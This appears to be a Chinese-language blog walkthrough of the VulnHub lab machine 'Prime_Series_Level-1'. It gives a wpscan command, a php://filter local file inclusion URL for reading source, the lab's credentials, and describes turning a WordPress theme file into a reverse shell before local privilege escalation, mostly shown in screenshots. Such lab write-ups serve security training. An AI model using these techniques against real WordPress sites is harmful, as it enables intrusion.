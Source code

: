 ```yaml
---
layout: post
title:  "Prime_Series_Level-1"
description: walkthrough
category: vulnhub
---
```

# Prime_Series_Level-1



![image-20200616032702410]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616032702410.png)



![image-20200616034329320]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616034329320.png)



![image-20200616034518382]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616034518382.png)

wpscan正常扫识别不了，--force强制扫描

```bash
wpscan --url http://192.168.43.67/wordpress/ -e ap,vt,cb,u --force
```

![image-20200616035034608]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616035034608.png)

网页刷不出来。改了一下nat。正常了

但是没找到什么

重新换工具打目录



![image-20200616213145926]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616213145926.png)

![image-20200616213041045]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616213041045.png)

![image-20200616215441336]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616215441336.png)

浏览这个页面并不存在。线索是提示wfuzz，尝试在之前打过的php页面fuzz参数。

![image-20200616212916122]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616212916122.png)

```bash
http://10.10.10.129/index.php?file=location.txt
```



![image-20200616215704601]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616215704601.png)

另一个php页面是之前扫到的image.php

```bash
http://10.10.10.129/image.php?secrettier360=
```

![image-20200616215900633]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616215900633.png)

我们需要搞懂这个页面能提供什么功能。尝试看一下源码

```bash
10.10.10.129/image.php?secrettier360=php://filter/read=convert.base64-encode/resource=image.php
```

![image-20200616220111837]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616220111837.png)

![image-20200616220257792]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616220257792.png)

显然可以文件包含

![image-20200616220614259]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616220614259.png)

验证成功，还有另外一个提示，尝试按提示读取

![image-20200616220710770]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616220710770.png)



现在我们有了一个用户凭证

```bash
saket:follow_the_ippsec
```

先实验ssh

![image-20200616221115742]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616221115742.png)

想到之前扫出的wordpress登录页面

```bash
http://10.10.10.129/wordpress/wp-admin
```

尝试登录失败。

查看wp的页面

![image-20200616222403987]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616222403987.png)

发现实际wp管理员的用户名可能是victor

```bash
victor:follow_the_ippsec
```



![image-20200616222625497]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616222625497.png)



修改主题已获得rshell

![image-20200616224111591]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616224111591.png)

在右侧逐个查看页面查找可以修改的页面

![image-20200616224219617]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616224219617.png)

修改成rshell

![image-20200616224310635]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616224310635.png)

```bash
http://10.10.10.129/wordpress/wp-content/themes/twentynineteen/secret.php
```

![image-20200616224525255]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616224525255.png)

![image-20200616225603258]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616225603258.png)

直接本地提权

![image-20200616225900539]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616225900539.png)

![image-20200616225839008]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616225839008.png)